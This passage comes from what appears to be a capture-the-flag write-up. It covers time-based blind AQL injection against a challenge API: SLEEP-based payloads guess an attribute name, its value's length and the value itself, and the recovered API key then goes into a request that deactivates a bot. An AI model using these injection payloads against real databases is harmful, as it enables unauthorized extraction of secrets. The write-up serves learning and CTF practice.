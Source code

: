 ```SQL
' OR ATTRIBUTES(doc)[0] LIKE '{pattern}' ? SLEEP(2) : 'a
```

- Guessed name for Attribute 0: ```deactivate_api_key```

### Length of value of attribute ***deactivate_api_key***

- So far, we know the name of the attribute we can start guessing its length.
- Possible AQL:

```SQL
 ' or LENGTH(doc.deactivate_api_key})==36 ? SLEEP(2) : 'a"
 ```

- Answer: Length of 'deactivate_api_key' value: ```36```

### Guess value of the attribute

- No we have all parameters to start guessing the value of the attribute ***deactivate_api_key***
- From previous iteration and know values we can craft a AQLi payload like:

```SQL
' OR doc.deactivate_api_key LIKE '{pattern}' ? SLEEP(2) : 'a
```

- Sometimes the server is acting strange, I need to wait for next day to start with the attempt for guessing the value.
- Okay! Problem was on my VM, from HOST machine it finished without any problem and value is:

*Guessed value for 'deactivate_api_key':* ```abe7a6ad-715e-4e6a-901b-c9279a964f91```

## Finish him! 🥇

- Now we know everything we need to deactivate the API!
- Lets send GET request to <https://api.frostbit.app/api/v1/frostbitadmin/bot/83270120-3b1c-41f3-b25b-deaa5b5d1327/deactivate?debug=true> with HEADER ***X-API-Key:abe7a6ad-715e-4e6a-901b-c9279a964f91***
- Response:

```json
{
  "message": "Response status code: 200, Response body: {\"result\":\"success\",\"rid\":\"83270120-3b1c-41f3-b25b-deaa5b5d1327\",\"hash\":\"3c7b7e6287a6e797196c970017ed9ecbe2c2d7ebafce6a605b1b35e16bab431d\",\"uid\":\"46597\"}\nPOSTED WIN RESULTS FOR RID 83270120-3b1c-41f3-b25b-deaa5b5d1327",
  "status": "Deactivated"
}
```

- GLORY!!! 🥇
- My profile an achievements are visible at: <https://account.counterhack.com/user/ArmBraker>

---

## Python Scripts

- ***Disclaimer:*** belows scripts are very similar, just AQL injections are different, so it can be consolidated in one script, but how learning purposes I divided them.
